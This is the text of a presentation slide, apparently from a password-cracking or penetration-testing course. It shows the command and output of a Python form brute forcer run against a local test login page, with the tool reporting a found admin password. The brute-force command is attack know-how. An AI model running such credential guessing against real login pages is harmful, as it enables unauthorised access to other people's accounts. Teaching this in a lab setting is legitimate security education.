

Basic form brute forcer – output
~/password_cracking$ python bruteforcing-forms-final.py http://127.0.0.1/check_login.php pass.txt 'username=admin&password=FUZZ'
***************************************
* Basic Form bruteforcer 0.1*
***************************************
code: 302 Code after redirection:200 Contents: 12345 Passowrd: administrator123

29